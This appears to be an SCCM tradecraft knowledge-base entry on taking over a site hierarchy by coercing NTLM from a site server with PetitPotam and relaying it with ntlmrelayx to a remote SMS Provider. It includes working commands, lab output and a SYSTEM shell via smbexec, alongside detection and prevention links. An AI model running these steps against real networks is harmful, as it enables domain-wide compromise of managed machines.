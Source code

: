 # TAKEOVER-6

## Description
Hierarchy takeover via NTLM coercion and relay to SMB on remote SMS Provider


## MITRE ATT&CK TTPs
- [TA0008](https://attack.mitre.org/tactics/TA0008) - Lateral Movement
- [TA0004](https://attack.mitre.org/tactics/TA0004) - Privilege Escalation

## Requirements

### Coercion
- Valid Active Directory domain credentials
- Connectivity to SMB (TCP/445) on a coercion target:
    - TAKEOVER-6.1: Coerce primary site server
    - TAKEOVER-6.2: Coerce passive site server
- Connectivity from the coercion target to SMB (TCP/445) on the relay server
- Coercion target settings:
    - `BlockNTLM` = `0` or not present, or = `1` and `BlockNTLMServerExceptionList` contains attacker relay server [DEFAULT]
    - `RestrictSendingNTLMTraffic` = `0`, `1`, or not present, or = `2` and `ClientAllowedNTLMServers` contains attacker relay server [DEFAULT]
- Domain controller settings:
    - `RestrictNTLMInDomain` = `0` or not present, or is configured with any value and `DCAllowedNTLMServers` contains coercion target [DEFAULT]

### Relay
- Connectivity from the relay server to SMB (TCP/445) on the relay target
- Relay target settings:
    - `RequireSecuritySignature` = `0` or not present [DEFAULT]
    - `RestrictReceivingNTLMTraffic` = `0` or not present [DEFAULT]
    - Coercion target is local admin (to access RPC/admin shares)
- Domain controller settings:
    - `RestrictNTLMInDomain` = `0` or not present, or is configured with any value and `DCAllowedNTLMServers` contains relay target [DEFAULT]
    - `LmCompatibilityLevel` < `5` or not present, or = `5` and LmCompatibilityLevel >= `3` on the coercion target [DEFAULT]

## Summary
The SMS Provider is a SCCM site server role installed by default on the site server when configuring a primary site or central administration site. The role can optionally be installed on additional SCCM site systems for high availability configurations. The SMS Provider is a Windows Management Instrumentation (WMI) provider that performs as an intermediary for accessing and modifying data stored in the site database. An attacker who is able to successfully coerce NTLM authentication from a site server can escalate to "Full Administrator" by elevating to "NT\AUTHORITY SYSTEM" on the SMS Provider.

## Impact
This technique may allow an attacker to relay a site server domain computer account to a remote SMS Provider and elevate their privileges to "Full Administrator" for the SCCM Hierarchy. If successful, this technique enables an attacker to execute arbitrary programs on any client device that is online as SYSTEM, the currently logged on user, or as a specific user when they next log on.

## Defensive IDs
- [DETECT-1: Monitor site server domain computer accounts authenticating from another source](../../../defense-techniques/DETECT/DETECT-1/detect-1_description.md)
- [DETECT-5: Monitor group membership changes for SMS Admins](../../../defense-techniques/DETECT/DETECT-5/detect-5_description.md)
- [DETECT-5: Monitor group membership changes for RBAC_Admins table](../../../defense-techniques/DETECT/DETECT-6/detect-6_description.md)
- [PREVENT-12: Require SMB signing on site systems](../../../defense-techniques/PREVENT/PREVENT-12/prevent-12_description.md)
- [PREVENT-20: Block unnecessary connections to site systems](../../../defense-techniques/PREVENT/PREVENT-20/prevent-20_description.md)

## Examples
1. Use `SCCMHunter` to  profile SCCM infrastructure:

    ```
    [02:00:25 PM] INFO     [+] Finished profiling all discovered computers.                                   
    [02:00:25 PM] INFO     +-------------------------+------------+-----------------+--------------+-------------------+---------------------+---------------+--------+---------+
                        | Hostname                | SiteCode   | SigningStatus   | SiteServer   | ManagementPoint   | DistributionPoint   | SMSProvider   | WSUS   | MSSQL   |
                        +=========================+============+=================+==============+===================+=====================+===============+========+=========+
                        | provider.internal.lab   | None       | False           | False        | False             | False               | True          | False  | False   |
                        +-------------------------+------------+-----------------+--------------+-------------------+---------------------+---------------+--------+---------+
                        | sccm.internal.lab       | LAB        | False           | True         | True              | False               | True          | False  | False   |
                        +-------------------------+------------+-----------------+--------------+-------------------+---------------------+---------------+--------+---------+       
    ```
2. On the attacker relay server, start `ntlmrelayx`, targeting the SMB service remote SMS Provider identified in the previous step:
    ```
    └─# ntlmrelayx.py -t smb://10.10.100.12 -socks -smb2support
    Impacket v0.12.0.dev1+20240130.154745.97007e84 - Copyright 2023 Fortra

    [*] Protocol Client SMB loaded..
    [*] Protocol Client IMAPS loaded..
    [*] Protocol Client IMAP loaded..
    [*] Protocol Client RPC loaded..
    [*] Protocol Client DCSYNC loaded..
    [*] Protocol Client MSSQL loaded..
    [*] Protocol Client LDAP loaded..
    [*] Protocol Client LDAPS loaded..
    [*] Protocol Client SMTP loaded..
    [*] Protocol Client HTTPS loaded..
    [*] Protocol Client HTTP loaded..
    [*] Running in relay mode to single host
    [*] SOCKS proxy started. Listening on 127.0.0.1:1080
    [*] HTTPS Socks Plugin loaded..
    [*] HTTP Socks Plugin loaded..
    [*] MSSQL Socks Plugin loaded..
    [*] SMTP Socks Plugin loaded..
    [*] SMB Socks Plugin loaded..
    [*] IMAPS Socks Plugin loaded..
    [*] IMAP Socks Plugin loaded..
    [*] Setting up SMB Server
    [*] Setting up HTTP Server on port 80
    * Serving Flask app 'impacket.examples.ntlmrelayx.servers.socksserver'
    * Debug mode: off
    [*] Setting up WCF Server
    [*] Setting up RAW Server on port 6666
    ```

3. From the attacker host, coerce NTLM authentication from the site server targeting the relay server's IP address:
    ```
    ┌──(root㉿DEKSTOP-2QO0YEUW)-[/opt/PetitPotam]
    └─# python3 PetitPotam.py -u lowpriv -p P@ssw0rd <NTLMRELAYX_LISTENER_IP> <SITE_SERVER_IP> 

    Trying pipe lsarpc
    [-] Connecting to ncacn_np:passive.internal.lab[\PIPE\lsarpc]
    [+] Connected!
    [+] Binding to c681d488-d850-11d0-8c52-00c04fd90f7e
    [+] Successfully bound!
    [-] Sending EfsRpcOpenFileRaw!
    [-] Got RPC_ACCESS_DENIED!! EfsRpcOpenFileRaw is probably PATCHED!
    [+] OK! Using unpatched function!
    [-] Sending EfsRpcEncryptFileSrv!
    [+] Got expected ERROR_BAD_NETPATH exception!!
    [+] Attack worked!
    ```

    After a few seconds, you should receive an SMB connection on the relay server that is forwarded to the SMB service on the SMS provider and the authenticated session is held open

    ```
    [*] Servers started, waiting for connections
    Type help for list of commands
    ntlmrelayx> [*] SMBD-Thread-9 (process_request_thread): Received connection from 10.10.100.9, attacking target smb://10.10.100.12
    [*] Authenticating against smb://10.10.100.12 as LAB/SCCM$ SUCCEED
    [*] SOCKS: Adding LAB/SCCM$@10.10.100.12(445) to active SOCKS connection. Enjoy
    [*] SMBD-Thread-10 (process_request_thread): Connection from 10.10.100.9 controlled, but there are no more targets left!
    [*] SOCKS: Proxying client session for LAB/SCCM$@10.10.100.12(445)
    socks
    Protocol  Target        Username   AdminStatus  Port
    --------  ------------  ---------  -----------  ----
    SMB       10.10.100.12  LAB/SCCM$  TRUE         445
    ntlmrelayx>
    ```

 4. Proxy `smbexec.py` in the context of the site server through the authenticated session to establish interactive access on the target host as NT\AUTHORITY SYSTEM:
    ```
    └─# proxychains smbexec.py LAB/SCCM\$@10.10.100.12 -codec 437 -no-pass
    [proxychains] config file found: /etc/proxychains4.conf
    [proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
    [proxychains] DLL init: proxychains-ng 4.16
    Impacket v0.12.0.dev1+20240130.154745.97007e84 - Copyright 2023 Fortra
    [proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.10.100.12:445  ...  OK
    [!] Launching semi-interactive shell - Careful what you execute
    C:\Windows\system32>wmic /namespace:\\root\sms\site_lab path SMS_Admin get AdminID,LogonName
     ■AdminID   LogonName
    16777217  LAB\Administrator
    16777220  LAB\lowpriv

    C:\Windows\system32>
    ```

## References
- Garrett Foster, [SCCMHunter](https://github.com/garrettfoster13/sccmhunter)
- Garrett Foster, [Site Takeover via SCCM's AdminService API](https://posts.specterops.io/site-takeover-via-sccms-adminservice-api-d932e22b2bf)
- Microsoft, [Plan for the SMS Provider](https://learn.microsoft.com/en-us/mem/configmgr/core/plan-design/hierarchy/plan-for-the-sms-provider)
